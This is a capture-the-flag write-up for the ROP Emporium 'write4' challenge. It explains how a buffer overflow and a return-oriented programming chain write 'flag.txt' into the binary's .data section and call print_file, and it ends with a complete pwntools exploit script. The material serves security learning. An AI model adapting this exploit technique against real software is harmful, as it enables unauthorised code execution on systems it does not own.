 # ROP Emporium | write4 Writeup

## Notes from Challenge Description

On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string "/bin/cat flag.txt" is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

**Important:** A PLT entry for a function named `print_file()` exists within the challenge binary. Simply call it with the name of a file you wish to read (like `"flag.txt"`) as the first argument.

---

## Understanding the Setup

The interesting part here is that `pwnme()` is an external function here—not that it matters—we're still using the same process to overwrite the return address and redirect execution to `usefulFunction`. If you want to take a look at `pwnme()`, you can check out the disassembly of `libwrite4.so` included in the challenge zip.

### usefulFunction():

![usefu](/Screenshots/usful.png)

From the function and the challenge description, we can see that a string is moved to `edi` (1st argument) and then `print_file()` is called.

We know the location of `print_file()` from the PLT section:

```asm
print_file();
0x00400510      jmp     qword [print_file] ; 0x601020
0x00400516      push    1          ; 1
0x0040051b      jmp     section..plt
```

So our goal is to move the string `"flag.txt"` into the `rdi` register and call the `print_file()` function.

---

## Strategy: Writing to Memory

We can't pass the string directly into `rdi`. We need to write the string into `.data` or `.bss` sections, as those parts of the binary are writable during runtime.

We're given a hint on how to do this in a section called `UsefulGadgets`.

![usefu](/Screenshots/usegadg.png)

One useful gadget is:

```asm
mov [r14], r15 ; ret
```

If there's an address stored in `r14`, and data in `r15`, this gadget writes the data to the address stored in `r14`. Since we want to write to `.data`, we can store its address in `r14`. To set that up, we need gadgets to `pop r14` and `pop r15`, and another one to `pop rdi`.

### Gadget Locations (via ROPgadget):

```python
g1 = p64(0x0000000000400693) # pop rdi ; ret
g2 = p64(0x0000000000400690) # pop r14 ; pop r15 ; ret
g3 = p64(0x0000000000400628) # mov qword ptr [r14], r15 ; ret
```

### Finding .data Section:

Using Cutter, we search and find:

```asm
;-- section..data:
;-- .data:
;-- data_start:
;-- __data_start:
0x00601028      add     byte [rax], al ; [22] -rw- section size 16 named .data
```

So we use:

```python
r14 = p64(0x00601028)
```

---

## Formatting the String

```python
str = b"flag.txt".ljust(8, b'\x00')
str_pack = p64(u64(str))
```

The `.ljust(8, b'\x00')` ensures that if the string is less than 8 bytes, it adds null padding. Then our string is converted to an unsigned int using `u64()`, and then back into bytes using `p64()`.

Luckily, our string is exactly 8 bytes. If it were longer, we'd need to chunk it across multiple addresses, which is trickier and left for a future writeup.

---

## Final Payload

```python
from pwn import *

junk = b'A' * 40
str = b"flag.txt".ljust(8, b'\x00')
str_pack = p64(u64(str))

g1 = p64(0x0000000000400693) # pop rdi ; ret
g2 = p64(0x0000000000400690) # pop r14 ; pop r15 ; ret
g3 = p64(0x0000000000400628) # mov qword ptr [r14], r15 ; ret

data_section = p64(0x00601028)
print_file = p64(0x00400510)

payload = junk + g2 + data_section + str_pack + g3 + g1 + data_section + print_file

p = process('./write4')

p.recvuntil('>')
p.sendline(payload)
p.interactive()
```

---

## Step-by-step ROP:

1. **pop r14 ; pop r15 ; ret**
   → r14 = .data section address
   → r15 = "flag.txt" (as 8-byte integer)

2. **mov \[r14], r15 ; ret**
   → Writes "flag.txt" into .data

3. **pop rdi ; ret**
   → rdi = .data (address of our string)

4. **call print\_file()**
   → Displays contents of flag.txt

---
---

![final](/Screenshots/final.png)

## Final Thoughts

Although the ending payload was relatively short and the core trick revolved around a single write, this challenge made me more comfortable using ROP to move data into memory and call functions with controlled arguments. I needed help along the way, but the learning was rewarding and the satisfaction of seeing the flag print out was great. I'm excited to try challenges that require writing longer strings next!
